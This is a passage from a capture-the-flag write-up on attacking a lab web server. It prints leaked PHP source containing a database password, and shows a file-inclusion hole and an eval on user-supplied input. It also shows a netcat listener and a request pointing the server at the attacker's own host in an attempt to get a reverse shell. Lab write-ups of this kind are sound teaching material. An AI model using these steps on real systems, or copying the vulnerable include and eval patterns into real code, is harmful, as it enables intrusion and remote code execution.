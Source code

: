 Let’s copy the base64 encoding and decode it:

```bash
echo 'BASE64_CHUNK' | base64 -d > index.php

#INTERESTING FINDS:

$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

<SNIP>
			<?php
				if(isset($_GET['debug']))
				{
					echo 'this option is for developers only';
					if($_GET['debug'] === "index.php") {
						die(' ---- ERROR ----');
					} else {
						include $_GET['debug'];
					}
				}
				else if(isset($_GET['user']))
					require 'user_inc.php';
				else if(isset($_GET['staff']))
					require 'staff_inc.php';
				else if(isset($_GET['movie']))
					require 'movie_inc.php';
				else 
			?>
```

the function include loads and executes the specified file (e.g., ?debug=admin.php would include admin.php). This means if we can get the server to point to our hosted web server, maybe we can get the server to execute our php code. Let’s try to get a reverse shell.

First, let’s test if we can reach our server:

```bash
#on attack host
nc -lnvp 80

#on target; burp repeater:
/admin/?debug=http%3a//10.10.16.4/hello
```

It does not reach us. 

Let’s also check out master.php:

```bash
#INTERESTING FINDS
<form method="POST">
<input name="include" hidden>
</form>

<?php
if(isset($_POST['include']))
{
	if($_POST['include'] !== "index.php" ) 
		eval(file_get_contents($_POST['include']));
	else
		echo(" ---- ERROR ---- ");
}
?>

```
